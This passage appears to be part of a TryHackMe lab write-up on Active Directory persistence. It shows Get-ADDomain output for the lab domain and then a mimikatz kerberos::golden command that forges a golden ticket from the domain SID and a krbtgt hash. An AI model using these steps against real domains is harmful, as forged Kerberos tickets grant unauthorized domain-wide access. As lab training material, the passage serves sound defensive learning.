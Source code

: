 We will get this:

```powershell
PS C:\Users\chloe.potter> Get-ADDomain


AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=za,DC=tryhackme,DC=loc
DeletedObjectsContainer            : CN=Deleted Objects,DC=za,DC=tryhackme,DC=loc
DistinguishedName                  : DC=za,DC=tryhackme,DC=loc
DNSRoot                            : za.tryhackme.loc
DomainControllersContainer         : OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DomainMode                         : Windows2012R2Domain
DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc
Forest                             : tryhackme.loc
InfrastructureMaster               : THMDC.za.tryhackme.loc
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=
                                     System,DC=za,DC=tryhackme,DC=loc}
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

Now that we have the info, let's launch mimikatz again, same as before since it can crash:

```
C:\Tools\mimikatz_trunk\WIN32\mimikatz.exe
```

Inside of here, we need to generate a golden ticket:

```
kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
```

We will see this:

!\[]\(Pasted image 20250527233805.png)
